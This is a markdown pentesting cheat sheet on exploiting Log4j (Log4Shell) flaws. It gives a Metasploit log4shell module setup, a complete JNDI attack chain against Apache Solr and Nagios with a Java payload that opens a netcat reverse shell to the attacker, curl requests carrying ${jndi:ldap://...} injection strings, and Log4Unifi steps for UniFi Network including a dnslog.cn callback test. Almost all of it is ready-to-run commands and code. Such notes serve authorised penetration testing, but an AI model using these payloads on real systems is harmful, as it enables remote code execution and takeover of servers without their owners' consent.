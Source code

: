 ```yaml
---
title: Log4j Pentesting
description: Log4j has zero-day vulnerabilities to Log4Shell, Log4Unifi.
tags:
    - Apache
    - Web
refs:
date: 2023-02-14
draft: false
---
```


```sh
msfconsole
msf> use exploit/multi/http/log4shell_header_injection
msf> set HTTP_HEADER ACCEPT
msf> set RHOSTS <target-ip>
msf> set SRVHOST <local-ip>
msf> set SRVPORT 1389
# e.g. Nagios
msf> set TARGETURI /~logs
msf> set LHOST <local-ip>
msf> run
shell
```

<br />

## Exploit Apache Solr (JNDI)

You need to prepare your four local terminals.

### 1. Start LDAP Server on Your Local Terminal 1

1. **Install Maven**

    ```sh
    sudo apt install maven
    ```

2. **Get the Payload**

    Download the repository.

    ```sh
    git clone https://github.com/mbechler/marshalsec.git
    cd marshalsec
    ```

    Then build the marshalsec utility

    ```sh
    mvn clean package -DskipTests
    ```

3. **Start LDAP Server**

    ```sh
    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your-local-ip>:8000/#Exploit"
    ```

### 2. Host the Exploit on Your Local Terminal 2

1. **Create the Exploit with Java**

    First, create a new directory and create a new exploit named "Exploit.java" in the directory.  
    Open your favorite editor like vim.

    ```sh
    mkdir exploit
    cd exploit
    vim Exploit.java
    ```

    In editor, enter the following code.

    ```java
    public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <your-local-ip> <your-local-listener-port>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    }
    ```

2. **Compile the Payload**

    ```sh
    javac Exploit.java -source 8 -target 8
    ```

3. **Start Web Server to Host the Payload**

    ```sh
    python3 -m http.server 8000
    ```

### 3. Open Listener on Your Local Terminal 3

```sh
nc -lvnp <your-local-listener-port>
```

### 4. Send Request the Target Website

```sh
# Apache Solr
curl 'http://<target-ip>:<target-port>/solr/admin/cores?foo=${jndi:ldap://<local-ip>:1389/Exploit}'

# Nagios
curl http://<target-ip>:<target-port>/~logs -H 'Accept: ${jndi:ldap://<local-ip>:1389/Exploit}'
```

<br />

## Exploit Unifi Network using Log4Unifi

**Log4Unifi** is an exploitation Log4j tool in **Unifi Network**.

### 1. Test the Vulnerability in the Target Web Page

```sh
curl -i -s -k -X POST -H $'Host: vulnerable.com:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://9ulral.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://<target-ip>:8443/api/login'
```

### 2. Open Listener on Your Local Machine

```sh
nc -lvnp 4444
```

### 3. Exploit

Download the exploit from [the repository](https://github.com/puzzlepeaches/Log4jUnifi).

```sh
git clone https://github.com/puzzlepeaches/Log4jUnifi
cd Log4Unifi
```

Exploit

```sh
python exploit.py -u https://<target-ip>:8443 -i <your-local-ip> -p 4444
```
